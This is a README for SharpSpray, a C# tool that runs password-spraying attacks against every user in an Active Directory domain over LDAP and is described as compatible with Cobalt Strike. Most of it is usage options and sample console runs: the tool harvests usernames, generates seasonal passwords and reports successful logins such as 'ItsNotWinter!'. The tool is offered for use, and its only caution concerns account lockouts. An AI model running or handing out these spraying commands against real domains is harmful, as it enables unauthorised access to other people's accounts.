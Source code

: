 # SharpSpray
This project is a C# port of my PowerSpray.ps1 script. SharpSpray a simple code set to perform a password spraying attack against all users of a domain using LDAP and is compatible with Cobalt Strike.

https://github.com/jnqpblc/Misc-PowerShell/blob/master/PowerSpray.ps1

By default it will automatically generate the UserList from the domain.

By default it will automatically generate the PasswordList using the current date.

Be careful not to lockout any accounts.

```
SharpSpray.exe
      --Seeds [ A comma-separated list of passwords to as a seed to the internal list generator. Eg. Password,Welcome,Company ]
      --Passwords [ A comma-separated list of passwords to use instead of the internal list generator. Eg. Password1,Password19,Company19,Welcome19 ]
      --Delay [ The delay time between guesses in millisecounds. Eg. 300 ]
      --Sleep [ The number of minutes to sleep between password cycles. Eg. 15 ]
      --Usernames [ A comma-seperated list of usernames to use instead of the automated collection of usernames ]

C:\Users\jnqpblc\Desktop>SharpSpray.exe --Sleep 15
[+] Successfully collected 42 usernames from Active Directory.
[*] The Lockout Threshold for the current domain is 10.
[*] The Min Password Length for the current domain is 10.
[+] Successfully generated a list of 64 passwords.
[*] Starting password spraying operations.
[*] Using the default delay of 1000 milliseonds between attempts.
[*] Using password Winter19
^C

C:\Users\jnqpblc\Desktop>SharpSpray.exe --Seeds Password,Welcome,Company --Sleep 15
[+] Successfully collected 42 usernames from Active Directory.
[*] The Lockout Threshold for the current domain is 10.
[*] The Min Password Length for the current domain is 10.
[+] Successfully generated a list of 42 passwords.
[*] Starting password spraying operations.
[*] Using the default delay of 1000 milliseonds between attempts.
[*] Using password Password19
^C

C:\Users\jnqpblc\Desktop>SharpSpray.exe --Passwords ItsNotWinter! --Sleep 15 --Delay 300
[+] Successfully collected 42 usernames from Active Directory.
[*] The Lockout Threshold for the current domain is 10.
[*] The Min Password Length for the current domain is 10.
[+] Successfully generated a list of 1 passwords.
[*] Starting password spraying operations.
[*] Using a delay of 300 milliseonds between attempts.
[*] Using password ItsNotWinter!
[+] Successfully authenticated with jnqpblc::ItsNotWinter!
[*] Completed all rounds with password ItsNotWinter!
[*] Now the script will sleep for 15 minutes.
^C

C:\Users\jnqpblc\Desktop>SharpSpray.exe --Passwords ItsNotWinter! --Sleep 15 --Delay 300 --Usernames Fawaz,Admin
[+] Successfully collected 2 usernames from User input.
[+] Successfully generated a list of 1 passwords.
[*] Starting password spraying operations.
[*] Using a delay of 300 milliseonds between attempts.
[*] Using password ItsNotWinter!
[+] Successfully authenticated with Fawaz::ItsNotWinter!
[*] Completed all rounds with password ItsNotWinter!
[*] Now the script will sleep for 15 minutes.
^C
```
